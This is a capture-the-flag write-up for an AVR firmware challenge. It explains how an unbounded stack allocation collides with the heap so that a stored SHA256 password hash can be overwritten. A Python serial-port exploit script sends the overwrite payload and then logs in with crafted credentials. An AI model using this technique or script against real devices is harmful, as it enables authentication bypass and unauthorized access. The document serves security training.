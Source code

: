 ## Unauthorized (100)

### Description

Let's do something simple. This media unit has a Wifi access point and looks like remote access is possible. But only if you know the right password.

### Write-up

This task is a little bit more interesting, it contains some control-flow integrity parts and anti fault injection counter measures, which can be nice obstacles in real firmware.

![unauth](images/unauth1.png)

Here we can see function which takes number as parameter and returns pointer, with high probability that is *malloc*, and if we will look to [avr-libc](https://github.com/vancegroup-mirrors/avr-libc/blob/master/avr-libc/libc/stdlib/malloc.c) repository we can confirm this.

And among code in *malloc.c* we see one interesting comment:

	* Thus, all possible stack frames of interrupt routines that could
 	* interrupt the current function, plus all further nested function
 	* calls must not require more stack space, or they'll risk to collide
 	* with the data segment.

Really?

The point is that during input processing we can specify input size which is dynamically allocated on stack without any limitation, using this unsafe feature we can easily overlap stack and heap segments and overwrite stored data.

Next we should look how authentication is done, among functions code we can see quite known constants (**0x6A09E667**) which means that SHA256 is used for password verification. All user hashes is allocated on heap and have constant position after startup, also we need to know is initial stack value , for this purpose we can count stack frames from initial startup and predict heap allocator, but we no need to suffer, because we can find all this using debugger, we used Atmel AVR Studio which is quite good for such tasks.

```python
target_address=0x3023-0x22  #location of pass hash (backdoor user)
sp_base=0x3ebf 				#taked from debugger
addr_diff=sp_base-target_address

with serial.Serial('/dev/ttyUSB0',115200,timeout=1) as tty:
    tty.write("\n")
    read_until(tty,"Expected format:")
    
    n1=len(pass_hash)
    n2=addr_diff-len(str(n1))-len(":")-len(str(addr_diff))-len(":")-n1
    
    print "send payload "+str(n1)+":"+str(n2)+":"+repr(pass_hash)
    tty.write(str(n1)+":"+str(n2)+":"+pass_hash+"1\n")
    read_until(tty,"Unknown user")
    
    print "send pass: "+str(len(usrname))+":"+str(len(pasw))+":"+usrname+pasw
    tty.write(str(len(usrname))+":"+str(len(pasw))+":"+usrname+pasw+"\n")
    read_until(tty,"Your flag is")
    print tty.readline()
```

So, we just send two command, first one overwrite stored hash and second one we successfully pass crafted authentication, we have another one flag and can move on to next challenge, full script can be found among files in github repository.
